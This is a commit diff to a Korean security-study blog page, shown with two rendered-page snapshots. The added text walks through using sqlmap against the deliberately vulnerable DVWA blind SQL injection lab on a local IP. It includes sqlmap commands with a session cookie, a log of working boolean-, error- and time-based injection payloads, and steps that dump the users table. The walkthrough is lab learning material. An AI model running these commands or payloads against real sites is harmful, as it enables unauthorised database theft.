

Before and after one commit to Jminis/Jminis.github.io, a Jekyll site: the page built from docs/P4C/Day34.md, in a window 1280 px wide and 1400 px high, scrolled down 17853 px. Shown: the whole window at 89% size, without its empty margins (105-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
2022-05-22 3

````diff
--- a/docs/P4C/Day34.md
+++ b/docs/P4C/Day34.md
@@ -464,7 +464,97 @@ $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
 
 일일이 하기에는 시간이 너무 오래 걸릴 것 같아서 코드를 짜서 풀려고 한다.
 이 부분은 내일 완전히 집중해서 만들어 보아야겠다.
-절대 "범죄도시2" 가 보고 싶어서는 아니다.
+~~절대 "범죄도시2" 가 보고 싶어서는 아니다.~~
+
+직접 코드를 짜려던 순간에 이전에 찜해두었던 [sqlmap](https://jminis.github.io/docs/P4C/Day25/#-%ED%95%9C%EB%B2%88-%EC%95%8C%EC%95%84%EB%B3%B4%EC%95%98%EC%8A%B5%EB%8B%88%EB%8B%A4)이 생각났다. 한번 해보려고 한다.
+
+```shell
+sudo apt install sqlmap
+```
+
+설치는 아주 simple하다.
+
+<br>
+
+| 옵션                | 설명                                                         |
+| ------------------- | ------------------------------------------------------------ |
+| -u [URL]            | DB 정보가 존재하는 웹 페이지의 URL 정보                      |
+| --cookie            | HTTP 통신 시 사용되는 쿠키 헤더 값 (로그인해서 풀어야 하는 문제일 경우) |
+| -p [파라미터값]     | 전달하는 인자명 (ex. id,pw ...)                              |
+| --current-db        | 현재 데이터베이스 출력                                       |
+| --dbs               | 데이터베이스 목록 찾기                                       |
+| --tables            | 테이블 목록 찾기                                             |
+| --columns           | 컬럼 목록 찾기                                               |
+| -D [데이터베이스명] | 특정 데이터 베이스 대상 탐색                                 |
+| -T [테이블명]       | 특정 테이블 대상 탐색                                        |
+| -C [컬럼명]         | 특정 컬럼 대상 탐색                                          |
+| --dump              | 덤프를                                                       |
+
+<br>
+
+가장 기본적인 sqlmap 구문을 사용해보자
+
+```bash
+sqlmap -u "http://192.168.3.128/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=mgf249ms3gbccu03eppvk3vuic; security=low"
+```
+
+![image-20220522150244289](../img/image-20220522150244289.png)
+
+y 만 눌러주면 자기 혼자 다 해버리더니 취약한 부분을 탐색해주었다
+
+```
+minishell@ubuntu:~/.sqlmap/output/192.168.3.128$ cat log
+sqlmap identified the following injection point(s) with a total of 3426 HTTP(s) requests:
+---
+Parameter: id (GET)
+    Type: boolean-based blind
+    Title: AND boolean-based blind - WHERE or HAVING clause
+    Payload: id=1' AND 5411=5411 AND 'ixmN'='ixmN&Submit=Submit
+
+    Type: error-based
+    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
+Payload: id=1' AND (SELECT 9281 FROM(SELECT COUNT(*),CONCAT(0x7178707a71,(SELECT (ELT(9281=9281,1))),0x71716a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'IHMZ'='IHMZ&Submit=Submit
+
+    Type: time-based blind
+    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
+    Payload: id=1' AND (SELECT 4101 FROM (SELECT(SLEEP(5)))pSGC) AND 'fmpx'='fmpx&Submit=Submit
+---
+back-end DBMS: MySQL >= 5.0 (MariaDB fork)
+```
+
+앞서 sql 문제를 풀듯이 단계별로 알아나가보자.
+1.데이터베이스의 이름 확인하기
+
+```bash
+sqlmap -u "http://192.168.3.128/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=mgf249ms3gbccu03eppvk3vuic; security=low" --current-db
+```
+![image-20220522150945304](../img/image-20220522150945304.png)
+
+<br>
+
+2.테이블의 이름 확인하기
+```bash
+sqlmap -u "http://192.168.3.128/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=mgf249ms3gbccu03eppvk3vuic; security=low" -D dvwa --tables
+```
+
+![image-20220522151118628](../img/image-20220522151118628.png)
+
+<br>
+
+3.컬럼 정보 확인하기
+
+```bash
+sqlmap -u "http://192.168.3.128/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=mgf249ms3gbccu03eppvk3vuic; security=low" -D dvwa -T users --dump
+```
+
+![image-20220522151532244](../img/image-20220522151532244.png)
+
+명령어 3줄로 크랙이 완료되었다. 정말 어마어마한 툴 인 듯하다.
+해당 과정 중에서 4 개의 질의가 있었는데 가장 빨리 끝날 수 있도록 기초적인 설정만 했다.
+
+
+
+
 
 <br><br><br>
 
````
Also changed, not shown: docs/P4C/img/image-20220522150244289.png (added), docs/P4C/img/image-20220522150945304.png (added), docs/P4C/img/image-20220522151118628.png (added), docs/P4C/img/image-20220522151532244.png (added).
